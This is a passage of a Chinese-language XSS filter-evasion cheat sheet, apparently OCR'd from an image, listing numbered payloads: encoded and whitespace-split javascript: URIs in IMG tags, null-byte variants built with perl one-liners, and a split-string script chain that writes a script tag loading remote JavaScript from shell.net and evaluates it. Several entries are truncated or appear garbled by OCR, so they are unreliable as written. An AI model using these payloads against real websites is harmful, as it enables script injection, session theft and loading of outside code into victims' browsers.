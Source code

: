     <IMG SRC=jav..省略..S')>

(9) 7位的UTF-8的Unicode编码是没有分号的(计算器)

    <IMG SRC=jav..省略..S')>

(10) 十六进制编码也是没有分号(计算器)

    <IMG SRC=&#x6A&#x61&#x76&#x61..省略..&#x58&#x53&#x53&#x27&#x29>

(11) 嵌入式标签,将Javascript分开

    <IMG SRC=”jav ascript:alert(‘XSS’);”>

(12) 嵌入式编码标签,将Javascript分开

    <IMG SRC=”jav ascript:alert(‘XSS’);”>

(13) 嵌入式换行符

    <IMG SRC=”jav ascript:alert(‘XSS’);”>

(14) 嵌入式回车

    <IMG SRC=”jav ascript:alert(‘XSS’);”>

(15) 嵌入式多行注入JavaScript,这是XSS极端的例子

    <IMG SRC=”javascript:alert(‘XSS‘)”>

(16) 解决限制字符(要求同页面)

    <script>z=’document.’</script>
    <script>z=z+’write(“‘</script>
    <script>z=z+’<script’</script>
    <script>z=z+’ src=ht’</script>
    <script>z=z+’tp://ww’</script>
    <script>z=z+’w.shell’</script>
    <script>z=z+’.net/1.’</script>
    <script>z=z+’js></sc’</script>
    <script>z=z+’ript>”)’</script>
    <script>eval_r(z)</script>

(17) 空字符

    perl -e ‘print “<IMG SRC=java\0script:alert(\”XSS\”)>”;’ > out

(18) 空字符2,空字符在国内基本没效果.因为没有地方可以利用

    perl -e ‘print “<SCR\0IPT>alert(\”XSS\”)</SCR\0IPT>”;’ > out

(19) Spaces和meta前的IMG标签

    <IMG SRC=” javascript:alert(‘XSS’);”>
